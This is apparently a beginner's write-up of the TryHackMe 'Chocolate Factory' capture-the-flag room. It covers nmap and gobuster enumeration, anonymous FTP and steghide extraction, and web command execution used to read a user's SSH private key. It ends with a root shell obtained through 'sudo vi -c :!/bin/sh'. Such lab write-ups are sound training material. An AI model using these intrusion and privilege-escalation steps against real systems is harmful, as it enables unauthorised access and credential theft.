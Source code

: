 ```yaml
---
title: TryHackMe Chocolate Factory WriteUp
date: 2024-02-28 17:00:00 +0300
categories: [writeups]
tag: [thm,boxes]
---
```


# TryHackMe Chocolate Factory WriteUp

## Hello and Welcome to my first writeup!
## **Reconnaissance and Enumeration**

#### first we scan the machine using nmap using the command: nmap -sV [IP HERE]

#### **nmap scan:**

```bash
21/tcp  open  ftp        vsftpd 3.0.3

22/tcp  open  ssh        OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)

80/tcp  open  http       Apache httpd 2.4.29 ((Ubuntu))

100/tcp open  newacct?

106/tcp open  pop3pw?

109/tcp open  pop2?

110/tcp open  pop3?

111/tcp open  rpcbind?

113/tcp open  ident?

119/tcp open  nntp?

125/tcp open  locus-map?
```

#### **ftp enumeration:**
#### we login to ftp using username: "anonymous" and password: "anonymous"

#### in ftp found "gum_room.jpg"

#### used steghide to extract it: "steghide extract -sf gum_room.jpg"

#### didnt put passphrase, b64.txt extracterd.

#### found what looks like a /etc/shadow file. didnt find anything usefull.

#### **web enumeration:**

#### we open the webpage and find a login portal.

#### i used gobuster to enumrate directories.

```bash
"gobuster dir -u http://[IP HERE] -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x .php,.txt,.html"

gobuster: the name of the tool.
 
dir: specify we want to bruteforce directiories.

-u: specify the url

-w: specify the world list

-x: look for filees with exstinsions.
```
#### **result:**

```bash
/.php                 (Status: 403) [Size: 278]

/.html                (Status: 403) [Size: 278]

/index.html           (Status: 200) [Size: 1466]

/home.php             (Status: 200) [Size: 569]

/validate.php         (Status: 200) [Size: 93]
```
--------------------------
## **Initial Access:**

#### we navigat to home.php, you can run commands in it.

![image](https://github.com/3bodeS/TryHackMe-Chocolate-Factory-WriteUp/assets/62934084/31328d5d-7b3c-4da8-9d8b-fd4475152840)

#### we try the whoami command

![image](https://github.com/3bodeS/TryHackMe-Chocolate-Factory-WriteUp/assets/62934084/8cf2685a-7078-42d9-9941-39b071417adb)

#### it works!
#### we search for users in the home directory using “ls /home"

![image](https://github.com/3bodeS/TryHackMe-Chocolate-Factory-WriteUp/assets/62934084/96d7bf6b-4f29-4aef-97c2-fd7cfe113a57)

#### found user charlie, we list the files, using "ls /home/charlie"

 ![image](https://github.com/3bodeS/TryHackMe-Chocolate-Factory-WriteUp/assets/62934084/3c453544-953a-44d1-b065-04195b075d5a)

```bash
"cat /home/charlie/teleport"
```
#### Bingo! found ssh private key.

![image](https://github.com/3bodeS/TryHackMe-Chocolate-Factory-WriteUp/assets/62934084/82535ef1-a991-4952-89a4-b67110ab22bb)

#### i copied it into id_rsa file then give it the right permissions using `chmod +600`
#### test if we can login using ssh to the user.
#### the credintials works!

![image](https://github.com/3bodeS/TryHackMe-Chocolate-Factory-WriteUp/assets/62934084/9522c208-f459-47b1-ae7f-8c4100d71e28)

#### in /var/www/html i found a file named key_rev_key, i try to run it:

![image](https://github.com/3bodeS/TryHackMe-Chocolate-Factory-WriteUp/assets/62934084/0297133e-a4ca-474e-9666-f5e0b726651c)

#### changed the permissions using `chmod +x key_rev_key`

![image](https://github.com/3bodeS/TryHackMe-Chocolate-Factory-WriteUp/assets/62934084/b2901f69-3384-42a9-bada-0c384fbf021e)

#### since its a binary, we can check the file contents using `strings key_rev_key`

![image](https://github.com/3bodeS/TryHackMe-Chocolate-Factory-WriteUp/assets/62934084/34ce26e8-bcc5-4d97-b07f-0afe6d27704d)

#### got the key! 
`b'-VkgXhFf6sAEcAwrC6YR-SZbiuSb8ABXeQuvhcGSQzY='`

#### in /var/www/html we `cat` validate.php: 

![image](https://github.com/3bodeS/TryHackMe-Chocolate-Factory-WriteUp/assets/62934084/2199617c-b703-453a-aaad-aba2359fb1cd)

#### run validate.php , bingo we got charlies password :)

#### login to charlies account using "su charlie".
#### user.txt:
![image](https://github.com/3bodeS/TryHackMe-Chocolate-Factory-WriteUp/assets/62934084/afefcc59-1a50-41a5-b35c-11c2ad7a984d)

------------
## **Privilege Escalation:**

#### The first thing you should check for is `sudo -l`,
#### result:

```bash 
Matching Defaults entries for charlie on chocolate-factory:
   env_reset, mail_badpass,
   
   secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User charlie may run the following commands on chocolate-factory:
    
   (ALL : !root) NOPASSWD: /usr/bin/vi
```


#### in gtfobins, `vi -c ':!/bin/sh' /dev/null`

#### i ran it with sudo so if it works we could get root privileges `sudo vi -c ':!/bin/sh' /dev/null`

```bash
charlie@chocolate-factory:/home/charlie$ sudo vi -c ':!/bin/sh' /dev/null
```

#### pwned!!
-----
## **Finding the root flag:**

#### we find root.py
#### we run it , enter the key we obtained before , and it shows us the root flag.

![image(1)](https://github.com/3bodeS/TryHackMe-Chocolate-Factory-WriteUp/assets/62934084/cabbb2fe-8af8-46ec-a323-7764c1441762)

#### Happy Pwning :)
